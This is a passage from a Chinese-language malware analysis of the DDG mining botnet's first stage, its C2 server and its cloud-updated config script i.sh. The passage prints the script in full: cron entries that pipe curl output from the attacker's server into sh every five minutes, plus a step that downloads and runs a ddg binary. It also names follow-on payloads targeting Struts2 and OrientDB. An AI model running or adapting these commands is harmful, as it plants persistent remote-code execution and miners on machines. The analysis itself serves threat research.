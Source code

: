 ### 第一阶段

DDG 在 C2 （218.248.40.228 India/IN AS9829）上提供了云端配置文件： hxxp://218.248.40.228:8443/i.sh

该 i.sh 配置文件有多次变化，但是内容大同小异。下面是一个早期版本，其功能主要是：
- 将本地 Crontab 内容与远程服务器上的 i.sh 保持同步
- 从远程服务器下载 ddg 样本到本地并执行
- 检查本地的 ddg 的历史版本进程，并杀掉
```
export PATH=$PATH:/bin:/usr/bin:/usr/local/bin:/usr/sbin

echo "*/5 * * * * curl -fsSL http://218.248.40.228:8443/i.sh?6 | sh" &gt; /var/spool/cron/root  
mkdir -p /var/spool/cron/crontabs  
echo "*/5 * * * * curl -fsSL http://218.248.40.228:8443/i.sh?6 | sh" &gt; /var/spool/cron/crontabs/root

if [ ! -f "/tmp/ddg.2011" ]; then  
    curl -fsSL http://218.248.40.228:8443/2011/ddg.$(uname -m) -o /tmp/ddg.2011
fi  
chmod +x /tmp/ddg.2011 &amp;&amp; /tmp/ddg.2011


#if [ ! -f "/tmp/ss2480.2" ]; then
    #curl -fsSL http://218.248.40.228:8443/ss2480.2 -o /tmp/ss2480.2
#fi
#chmod +x /tmp/ss2480.2 &amp;&amp; /tmp/ss2480.2

ps auxf | grep -v grep | grep ss2480.1 | awk '`{`print $2`}`' | kill  
#ps auxf | grep -v grep | grep ss22522.1 | awk '`{`print $2`}`' | kill
#ps auxf | grep -v grep | grep ss22522.2 | awk '`{`print $2`}`' | kill
#ps auxf | grep -v grep | grep ddg.1010 | awk '`{`print $2`}`' | kill
#ps auxf | grep -v grep | grep ddg.1021 | awk '`{`print $2`}`' | kill
#ps auxf | grep -v grep | grep ddg.2001 | awk '`{`print $2`}`' | kill
#ps auxf | grep -v grep | grep ddg.2003 | awk '`{`print $2`}`' | kill
#ps auxf | grep -v grep | grep ddg.2004 | awk '`{`print $2`}`' | kill
#ps auxf | grep -v grep | grep ddg.2005 | awk '`{`print $2`}`' | kill
#ps auxf | grep -v grep | grep ddg.2006 | awk '`{`print $2`}`' | kill
#ps auxf | grep -v grep | grep ddg.2010 | awk '`{`print $2`}`' | kill

#ps auxf | grep -v grep | grep ddg.2011 || rm -rf /tmp/ddg.2011
```

由 i.sh 脚本内容可知，攻击者只需更新其中的样本下载地址，便可以灵活地向失陷主机投放任意恶意软件。根据我们的监控，该云端配置文件确实会不定时更新，用以投放新版木马文件，或者投放集成新的攻击方式的恶意软件。其投递的恶意软件包括：
<li>
**DDG 样本**：即 ddg.$(uname -m) 系列样本，这是长期投递的攻击载荷，我们监测到 v2011、v2020 和 v2021 共 3 个大版本</li>
<li>
**ss22522** 系列样本：短时间内投递过，针对Struts2 漏洞 S2-052</li>
<li>
**ss2480** 系列：短时间内投递过，是针对 OrientDB 漏洞的攻击样本，正是这个样本在短时间内的大规模扫描暴露了自己</li>
另外，早期版本中 kill 命令前面没有 xargs，进程并不会真正被杀死，在后期版本上这个 xargs 被加了进去，修复了这个问题。

2018.1.3 日，攻击者上线了最新的 i.sh(v2021.2)，新增了另外一个挖矿木马 **imWBR1**，正是该木马中内置了前文列出的第二个 XMR 钱包地址 :
